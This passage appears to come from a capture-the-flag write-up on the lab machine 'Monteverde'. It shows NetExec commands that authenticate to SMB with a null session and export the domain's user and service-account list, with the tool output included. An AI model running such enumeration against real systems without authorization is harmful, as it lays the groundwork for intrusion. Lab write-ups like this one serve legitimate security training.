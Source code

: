 This could likely be a active directory box as it has the kerbrute and ldap service open.

I started my Enumeration with my fav. port 445

## SMB ENUM USING NetExec

```dhall
nxc smb 10.10.10.172 -u  '' -p ''  
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)                                                                                   
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\:
```

Starting with a null session i was abled to authenticate to the smb.

SInce we are authenticated let’s get the users from the smb and store it in a file named users .

```bash
nxc smb 10.10.10.172 -u  '' -p ''  --users-export users 

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.10.10.172    445    MONTEVERDE       -Username-                    -Last PW Set-       -BadPW- -Description-  
SMB         10.10.10.172    445    MONTEVERDE       Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                    
SMB         10.10.10.172    445    MONTEVERDE       AAD_987d7f2f57d2              2020-01-02 22:53:24 0       Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.                                                                                                                        
SMB         10.10.10.172    445    MONTEVERDE       mhope                         2020-01-02 23:40:05 0        
SMB         10.10.10.172    445    MONTEVERDE       SABatchJobs                   2020-01-03 12:48:46 0        
SMB         10.10.10.172    445    MONTEVERDE       svc-ata                       2020-01-03 12:58:31 0        
SMB         10.10.10.172    445    MONTEVERDE       svc-bexec                     2020-01-03 12:59:55 0        
SMB         10.10.10.172    445    MONTEVERDE       svc-netapp                    2020-01-03 13:01:42 0        
SMB         10.10.10.172    445    MONTEVERDE       dgalanos                      2020-01-03 13:06:10 0        
SMB         10.10.10.172    445    MONTEVERDE       roleary                       2020-01-03 13:08:05 0        
SMB         10.10.10.172    445    MONTEVERDE       smorgan                       2020-01-03 13:09:21 0        
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated 10 local users: MEGABANK
SMB         10.10.10.172    445    MONTEVERDE       [*] Writing 10 local users to users

```
